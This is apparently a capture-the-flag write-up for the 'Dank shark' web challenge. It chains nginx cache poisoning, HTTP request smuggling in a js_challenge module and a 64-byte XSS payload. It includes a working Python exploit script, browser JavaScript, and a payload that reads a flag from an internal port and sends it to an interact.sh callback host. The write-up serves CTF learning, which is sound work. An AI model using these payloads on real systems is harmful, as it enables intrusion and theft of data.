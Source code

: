 # Dank shank

> Strong shark protection!
> 
> Attachment: https://s3.cdn.justctf.team/bcbaa7ae-cc27-494f-8c65-6c1e22953e05/shark.zip

## Challenge

The hard of this challenge is evaluating a long js payload ( for fetching the flag and stuff ) with only 64 bytes of html.
Normally you would do `<img src=1 onerror=eval(window.name)>` but the xss bot doens't have access to internet.

## admin page

```html
<html>
<head>
    <title>Dank Shark</title>
</head>
<body>
<div>
    Last comment nickname: <div id="nickname">Maybe loading...</div>
</div>
</body>
<script>
    async function getNickname() {
        let data;
        try {
            const resp = await fetch(`/admin/api/v1/last_nickname`);
            if(resp.status !== 200) {
                throw Error('status not 200');
            }
            data = await resp.text();
            data = JSON.parse(data)['response']['nickname'];
        } catch (e) {
        }
        return data;
    }

    (async () => {
        document.querySelector("#nickname").innerHTML = await getNickname();
    })()
</script>
</html>
```

xss bot automatically goes to this page. The response of `last_nickname` is controllable by us but there is a check on that endpoint
that checks if the remote ip is not locahost. 
The first challenge is to bypass this mechanism 
## First part - Cache poisoning

There is a cache poisoning vulnerablity that is due to the misconfiguration of nginx.

```
proxy_cache_key "$language$request_uri";
```

`$request_uri` is `request_path+request_querystring` and `$language` is the `Accept-language` header of the request.

The requester ip address is not inside the cache key so we can use this vulnerablity to bypass the `last_nickname` endpoint protection.

## Second part - Weird http-js-challenge nginx module

This bug was quite fun to spot and exploit.
We actually found this bug by luck and somebody sent a POST request to somewhere and saw two responses in body.
After looking into this behavior, We concluded that the module doesn't clean the request body from the request buffer and we can get http request splitting primitives with it. 

```
GET / HTTP/1.1\r\n
Host: example.org\r\n
Content-Length: 30\r\n
\r\n
GET /hack HTTP/1.1\r\n
example: 
```

When the nginx module receives the above request, it doesn't read the body so the next request that it handles is the `GET /hack` request.
The splitted request is not fully sent (The last two CRLFs are not sent) so the next request that nginx receives goes inside that request.

That means that next request that the module handles is
```
GET /hack HTTP/1.1\r\n
example: GET / HTTP/1.1\r\n
Host: example.org\r\n
Header: header\r\n
\r\n
```

More details from the author:
> The bug in the js_challange module is here:
> https://github.com/simon987/ngx_http_js_challenge_module/blob/master/ngx_http_js_challenge.c#L240
> there is a missing ngx_http_discard_request_body(r)
> So this module doesn't clean the request body
> It is only exploitable with specific nginx configuration (keepalive connection on proxy_pass)

## Third part - Chaining the bugs

The following payload contains an infinite loop that keeps evaluating the `/last_nickname` endpoint response.

```html
<style onload="z=_=>getNickname().then(r=>eval('`'+z()+r));z()">
```

> This payload is the result of hours of hard-work and pain :')

Because this payload keeps requesting `/last_nickname`, we can use the request smuggling vulnerablity to change
the path of the request to somewhere with longer length limit.

Execute the following exploit before triggering the xss bot.
```py
#!/usr/bin/env python3
import requests
import time

# target = 'http://acrfd84eanl1n3w82ogr1xrec4habm.dank-shark.web.jctf.pro'
# resCookie = '26E78C1654D95E4FBBF6090FCFB9D2CDF4D8270570832'

target = 'http://7yovvqosk90obni8thovwgvek6cnr4.dank-shark.web.jctf.pro'
resCookie = '7174E38A014BD0E4CFDA2F8059896856FA6F13623486'

firstPayload = """`;fetch(`//0:1337`).then(r=>r.text()).then(r=>fetch(`//`+r.replace(`{`,``).replace(`}`,``)+`.cajv6f92vtc00008znt0gfjpu8ayyyyyb.interact.sh/`));//"""
print(len(firstPayload))

r = requests.post(f'{target}/api/v1/add_comment',cookies={
    'res':resCookie
},json={
    'comment':firstPayload,'nickname':"AAA"
})
print(r.text)


firstPayload = """<style onload="z=_=>getNickname().then(r=>eval('`'+z()+r));z()">"""
print(len(firstPayload))

r = requests.post(f'{target}/api/v1/add_comment',cookies={
    'res':resCookie
},json={
    'comment':"FFFFFFFFFff",'nickname':firstPayload
})
print(r.text)

while(1):
    requests.get(f'{target}/admin/api/v1/last_nickname',cookies={
        'res':resCookie
    })
    time.sleep(0.1)
```

And Execute the following payload on your browser about 10 seconds after clicking on the xss-bot visit button.
```js
    res = '7174E38A014BD0E4CFDA2F8059896856FA6F13623486'
    setInterval(()=>{
        fetch('/admin/changeroute',{method:"POST",body:"GET /api/v1/comments HTTP/1.1\r\nCookie:res="+res+"\r\nV:"})
    },100)
```

> by renwa,as3617,parrot
